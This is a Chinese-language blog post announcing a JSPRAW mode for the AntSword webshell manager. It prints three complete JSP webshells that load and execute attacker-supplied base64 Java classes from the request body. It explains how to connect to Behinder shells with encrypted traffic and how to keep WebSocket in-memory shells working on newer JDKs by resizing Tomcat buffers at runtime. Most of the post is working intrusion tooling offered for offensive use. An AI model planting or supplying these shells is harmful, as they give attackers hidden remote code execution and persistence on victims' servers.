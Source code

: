 # AntSword新增类型：JSPRAW的一些玩法


<meta name="referrer" content="no-referrer" />

## 背景
最近给AntSword新增了一种类型：JSPRAW，主要有以下两点改进：

+ JSPRAW不再使用其他参数进行传参，同时支持key-value键值对以及raw传参形式
+ 新增toString触发方式，Payload可以不用依赖外部request/response对象，兼容非HTTP场景

接下来以几个实际场景讲讲这个新类型有哪些应用。



## 具体应用
### 一键连接冰蝎的JSP Shell
JSPRAW支持如下Shell写法，类似冰蝎，直接发送RAW格式的Payload。需要注意的是这时候设置密码是不生效的，随便填即可，另外需要在设置里勾选 其他设置-Body设置为RAW模式。如果不勾选的话就是键值对传参形式，可以兼容原来的Shell写法。

```plain
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getReader().readLine();
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(new Object[]{request,response});
    }
%>
```

此时传递的Payload形式如下

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1727009228638-a84ca94f-4955-4136-b4fd-d30d4ab6c45d.png)



既然已经是冰蝎的传参形式了，那么我们只要配合特定的编码器，就可以直接连接冰蝎的Shell了

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726568168152-6948bc41-dbb1-4986-a04a-fe069ac6a35d.png)

设置里需要勾选 Body设置为RAW模式

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726568240757-72a23998-d5cf-465c-88db-56bc0d1c65ee.png)

正常连接

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726568277104-fb203ac4-3f26-40e6-98ac-25580022461b.png)



抓包可以看到，蚁剑也同样实现了冰蝎的强加密能力。一个Shell，两种用法。

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726568310699-67defe25-2392-471d-8e4a-79e1f5283796.png)

可以再单独写一个解码器对回显包进行二次编码，这里就不再展开

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726568577377-1e31e24d-21bb-4d29-9007-7a7ff8edc807.png)



### 兼容非HTTP场景
在实战中我们会遇到一些非HTTP的情况，例如WebSocket内存马，WebFlux内存马，表达式注入等。因此JSPRAW做了一些改进，以兼容这类利用场景。

在Payload中增加了一个toString的调用入口，可以把执行的回显信息保存到一个字符串里并且return

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1727010028026-618b550b-1e00-4f74-bacd-76b7dd3283a0.png)



只调用toString的Shell样例如下：

```plain
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getReader().readLine();
    if (cls != null) {
        out.print(new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance());
    }
%>
```



正常连接

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726575991891-8159ed07-aaa2-492b-bdcc-71e1c0887364.png)



并且equals跟toString可以同时使用，equals拿到request对象后，还可以同时通过toString获取回显。

这样的写法主要是可以兼容一些漏洞利用场景，不需要每次额外去做判断。不理解的小伙伴多写几个利用EXP就明白我什么意思了。

```plain
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getReader().readLine();
    if (cls != null) {
        Object obj = new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance();
        obj.equals(new Object[]{request,response});
        out.print(obj.toString());
    }
%>
```



正常连接

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726575898403-2ec2d7ee-2e87-456f-98a5-14721ed9c4aa.png)



### 高版本JDK下的WebSocket内存马
这里举一个例子：高版本JDK下如何连接WebSocket内存马

背景是蚁剑很早就支持了WebSocket类型的内存马，在JDK<=14的时候可以用Js引擎来实现WebSocket内存马的连接Payload，但是从JDK15开始Js引擎被移除，就无法再使用了。

现在有了JSPRAW之后，WebSocket内存马就不存在高版本JDK的兼容性问题了，可以一直支持到最新的JDK22。

测试的时候还遇到了一个小坑，注入WS内存马以后连接发现只能执行第一个包，后面的包都没有回复。

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726998068666-61e52f61-5c46-4731-9182-51088c2aaebc.png)

debug了一番发现原因是Tomcat中WebSocke 发送信息默认长度为8kb，而后续的Payload超过了这个大小。

正常的做法是修改web.xml调大这个参数

```plain
<context-param>
    <param-name>org.apache.tomcat.websocket.textBufferSize</param-name>
    <param-value>5242800</param-value>
</context-param>
```



当然我们不可能去修改web.xml了，代码里找一下在哪里调用的，修改掉就好了

```plain
ServerContainer container = (ServerContainer) servletContext.getAttribute(ServerContainer.class.getName());
container.setDefaultMaxTextMessageBufferSize(52428800); // 设置为50m
container.setDefaultMaxBinaryMessageBufferSize(52428800);
```

这样就可以正常连接了

![](https://cdn.nlark.com/yuque/0/2024/png/1599908/1726998473689-74ef7f3f-4e92-499d-a506-ed397d1b7686.png)



## 最后
代码已经同步到github：[https://github.com/AntSwordProject/AntSword-JSP-Template/tree/jspraw](https://github.com/AntSwordProject/AntSword-JSP-Template/tree/jspraw)

实战是检验真理的唯一标准，你还有什么建议或者新的玩法呢？欢迎一起讨论:)


